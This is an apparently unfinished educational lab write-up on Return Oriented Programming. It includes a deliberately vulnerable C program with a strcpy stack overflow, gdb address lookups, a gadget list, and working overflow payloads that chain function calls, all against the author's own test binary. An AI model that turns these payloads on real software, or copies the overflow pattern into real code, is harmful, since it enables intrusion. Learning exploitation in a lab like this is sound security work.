

# ROP Chaining: Return Oriented Programming

The purpose of this lab is to familiarize with a binary exploitation technique called Return Oriented Programming \(ROP\) and ROP chains. The technique is used to bypass Data Execution Protection \(DEP\) and Address Space Layout Randomization \(ASLR\) protections.


Work In Progress


## 1st ROP Chain

### Vulnerable Code

We wil exploit the following code in a program `rop1a` that is intentionally vulnerable with a classic stack-based overflow:



```c
#include <stdio.h>
#include <string.h>

void rop1() 
{
    printf("ROP 1!\n");
}

void rop2() {
    printf("ROP 2!\n");
}

void rop3() {
    printf("ROP 3!\n");
}

void vulnerable(char* string) 
{
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) 
{
    vulnerable(argv[1]);
    return 0;
}
```



The above program starts executing at `main()`, which calls `vulnerable()` and the program eventually returns. Note that there are 3 functions `rop1`, `rop2` and `rop3` that are never called during the normal program execution, but that's about to change and this is the purpose of this lab.

### Objective

We're going to exploit the classic stack-based overflow vulnerability in the function `vulnerable` in the above code to trigger the functions `rop1()`, `rop2()` and `rop3()` sequentially, that are otherwise not called during the vulnerable program's runtime. After `rop3()` completes, we will make the program call the libc function `exit()`, so that it closes gracefully rather than with a crash.


The sequence of called functions `rop1() --> rop2() --> rop3() --> exit()` form a chain, so naturally, this is where the term ROP chains come from.


### Stack Layout

The key thing to understand with ROP chaining is the stack layout. In our case, we need the payload, that we send to the vulnerable program, to overflow the stack in such a way, that the exploited program calls our wanted functions in exactly this order:

1. `rop1()`
2. `rop2()`
3. `rop3()`
4. `exit()`

In other words, we need to ensure that the stack in the vulnerable program, when the vulnerable function executes, is organized like this:


If we think about the above graphic, we will realize that once the stack is overflowed, the following will happen:

1. The vulnerable function will return/jump to the `rop1()`;
2. Once `rop1()` completes, it will execute the `ret` instruction, which will pop the `rop2()` function address off the stack and jump to it;
3. Once `rop2()` completes, it will execute the `ret` instruction, which will pop the `rop3()` function address off the stack and jump to it;
4. Once `rop3()` completes, it will execute the `ret` instruction, which will pop the `exit()` function address off the stack and jump to it;

We will later confirm this with gdb in the [Inspecting the Stack](rop-chaining-return-oriented-programming.md#inspecting-the-stack) section.

### Payload

Based on the above graphic, our payload should look something like this:

```text
payload = AAAAs... + BBBB + &rop1 + &rop2 + &rop3 + &exit
```

...or for easier cross-reference - using the same colours as those seen in the above stack layout:


Let's find out the values we need to populate our payload with.

First of, compile our vulnerable program `rop1a`:

```text
gcc -m32 -fno-stack-protector -z execstack rop1a.c -o rop1a
```

Start debugging it with gdb and put a breakpoint on `main()` and continue execution:

```text
gdb rop1a
b main
c
```

Now, let's find out addresses for functions `rop1`, `rop2`, `rop3` and `exit`:

```csharp
gdb-peda$ p rop1
$1 = {<text variable, no debug info>} 0x565561a9 <rop1>

gdb-peda$ p rop2
$2 = {<text variable, no debug info>} 0x565561d4 <rop2>

gdb-peda$ p rop3
$3 = {<text variable, no debug info>} 0x565561ff <rop3>

gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7e02950 <exit>
```


Our payload now looks like this:


The last thing we need to know is how many AAAAs we need to send in before we can take over the EIP and overwrite the return address and point it to the `rop1`.

Below screenshot indicates that the offset of interest is 112 \(0x70\), or in other words, we need to send 112 A characters to smash the stack:


See below notes for more details on how to find the offset at which we can overwrite the vulnerable function's return address:



Knowing the offset, we can now now visualize the full payload like this:


### Exploit

We can now construct the full payload in python and send it to the vulnerable program like this:

```python
./rop1a "$(python -c 'print "A"*108 + "BBBB" + "\xa9\x61\x55\x56" + "\xd4\x61\x55\x56" + "\xff\x61\x55\x56" +  "\x50\x29\xe0\xf7"')"
```

If we execute it, we can see that our `rop1`, `rop2` and `rop3` functions are called successfully as they each call their respective `printf()` statements:


Note how the program did not crash with some segfault - this is because `rop3` called `exit` upon return. To re-inforce this understanding, we will see how that came to be in the below section.

### Inspecting the Stack Layout

Let's explore the stack layout of the vulnerable program `rop1a` when the `vulnerable()` function gets exploited and is about to return after it completes executing - when the CPU is about to execute the `ret` instruction.

Below screenshot shows the initial diagram on the left, indicating how we needed the stack to look like during the exploitation and gdb screenshots on the right, that confirm we successfully built the required stack:


From the above screenshot, note the following 2 key points:

1. `vulnerable()` function is about to execute the `ret` instruction at `0x56556254`;
2. `ret` instruction will pop the topmost value from the stack, which is a memory address of the `rop1()` function and jump to it, this way kicking off execution of our ROP chains.

What happens next is the following..

Once `rop1()` is about to return, the `ret` instruction will pop the topmost value from the stack, which is a memory location of `rop2()` and jump to it:


Once `rop2()` is about to return, the `ret` instruction will pop the topmost value from the stack, which is a memory location of `rop3()` and jump to it:


Once `rop3()` is about to return, the `ret` instruction will pop the topmost value from the stack, which is a memory location of `exit()` and jump to it:


This illustrates how we managed to build our first ROP chain by organizing the stack in such a way, that forced the vulnerable program to call `rop1`, which upon return called `rop2`, which upon return called `rop3`, which upon return called `exit`:


## 2nd ROP Chain

Our first ROP chain called 4 functions and none of them were called with arguments. Let's now build our second ROP chain that will call functions that do take arguments and see how how we need to build the stack this time around.

### Vulnerable Code

We're going to re-use the same code, except we will modify it so that `rop2` and `rop3` functions take 1 and 2 arguments respectively and will print them out accordingly:



```c
#include <stdio.h>
#include <string.h>

void rop1() {
    printf("ROP 1!\n");
}

void rop2(int a) {
    printf("ROP 2: %x!\n", a);
}

void rop3(int a, int b) {
    printf("ROP 3: %x, %x!\n", a, b);
}

void vulnerable(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable(argv[1]);
    return 0;
}
```



### Objective

The objective is to make subvert the vulnerable program and make it call the functions `rop1`, `rop2`, `rop3` and `exit` same way we did in the first part of this lab, however, this time `rop2` function is declared as `rop2(int a)` and `rop3` as `rop3(int a, int b)`, meaning we will have to somehow \(using stack\) pass 1 argument to `rop2`  and 2 arguments to `rop3`.

### Stack Layout


### ROP Gadgets


```python
gdb-peda$ ropgadget 
ret = 0x5655600a
popret = 0x5655601e
pop2ret = 0x5655630a
pop3ret = 0x56556309
pop4ret = 0x56556308
addesp_12 = 0x5655601b
addesp_16 = 0x565560fe
```


### Payload

```python
./rop1b "$(python -c 'print "A"*108 + "BBBB" + "\xb9\x61\x55\x56" + "\xe4\x61\x55\x56" + "\x1e\x60\x55\x56" + "\xef\xbe\xef\xbe" + "\x12\x62\x55\x56" + "\x0a\x63\x55\x56" + "\xad\xde\xad\xde" + "\xd3\xc0\xd3\xc0" + "\x50\x29\xe0\xf7" ')"
```

### Exploit



## Useful Python

```python
import struct
'\\x' + '\\x'.join(x.encode('hex') for x in struct.pack('I', 0x565561d4)).encode("utf-8")
'\\xd4\\x61\\x55\\x56'
```

## References















